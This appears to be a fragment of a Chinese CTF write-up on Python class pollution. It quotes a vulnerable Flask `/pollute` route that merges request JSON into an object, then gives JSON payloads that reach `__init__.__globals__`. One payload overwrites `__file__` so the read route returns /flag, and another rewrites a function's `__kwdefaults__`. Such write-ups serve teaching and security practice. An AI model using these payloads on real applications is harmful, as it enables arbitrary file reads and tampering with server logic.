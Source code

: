 ```python

@app.route('/pollute', methods=['GET', 'POST'])
def Pollution():
    if request.is_json:
        merge(json.loads(request.data),instance)
    else:
        return "J1ngHong说：钥匙圣洁无暇，无人可以污染！"
    return "J1ngHong说：圣钥暗淡了一点，你居然污染成功了？"

if __name__ == '__main__':
    app.run(host='0.0.0.0',port=80)
```

首先看到`merge` 函数就有了一些关注点

我们观察`/read`路由，他是可以读取后台文件的，

```python
 file = open(__file__, encoding="utf-8").read()
```

如果我污染改变`__file__`的话，就可以得到flag

```json
{
  "__init__": {
    "__globals__": {
      "__file__": "/flag"
    }
  }
}
```



#### 2. lucky_number

```json
{
    "__init__":{
        "__globals__":{
            "heaven":{
                "create":{
                    "__kwdefaults__":{
                        "lucky_number":5346,
                        "confirm":"true"
                    }
                }
            }
        }
    }
}
```

